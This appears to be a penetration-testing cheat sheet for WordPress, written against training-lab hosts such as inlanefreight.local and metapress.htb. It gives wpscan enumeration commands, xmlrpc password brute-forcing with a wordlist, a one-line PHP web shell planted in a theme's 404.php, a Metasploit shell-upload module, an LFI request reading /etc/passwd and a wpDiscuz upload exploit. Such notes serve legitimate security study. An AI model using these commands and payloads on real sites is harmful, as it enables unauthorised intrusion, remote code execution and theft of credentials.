 ### Footprinting + Enumeration
```bash
wpscan --url $url 
wpscan --url $url -e vp     <- Vulnerable plugins
wpscan --url $url -e cb     <- Config backups
wpscan --url $url -e p --plugins-detection aggressive
curl -s http://metapress.htb/ | grep plugins
```

```bash
curl -s http://blog.inlanefreight.local | grep WordPress
```

```bash
curl http://inlanefreight.local/robots.txt

User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://blog.inlanefreight.local/wp-sitemap.xml
```
##### Themes + Plugins
WordPress stores its plugins in the `wp-content/plugins` directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the `wp-content/themes` directory. These files should be carefully enumerated as they may lead to RCE.

```bash
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://metapress.htb/ | grep plugins
```
Visiting `/wp-content/plugins/realplugin` can uncover `readme`'s with the version

##### User enumeration
We can discover users by attempting to login via `/wp-admin` and the error messages they produce. [Good resource](https://gosecure.ai/blog/2021/03/16/6-ways-to-enumerate-wordpress-users/)
```bash
curl http://blog.inlanefreight.local/?rest_route=/wp/v2/users
```

### Exploitation
#### **Login bruteforcing**
Two methods, `xmlrpc`(faster api) and the wp-login.
```bash
wpscan --password-attack xmlrpc -t 20 -U john -P ~/rockyou.txt --url http://blog.inlanefreight.local
```

#### RCE
This is possible with Administrative access to the admin panel. This can be done by adding a single line of PHP code within an unused theme then calling upon it.
This should be on an uncommon page like `404.php`
```php
system($_GET[0]);
```

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
This can also be done with Metasploit (`rhost` and `vhost`must be set)
```bash
use exploit/unix/webapp/wp_admin_shell_upload 
```

#### Vulnerable Plugins
##### mail-masta
This plugin suffers from two vulnerabilities [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).
```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
##### wpDiscuz
Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. 
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

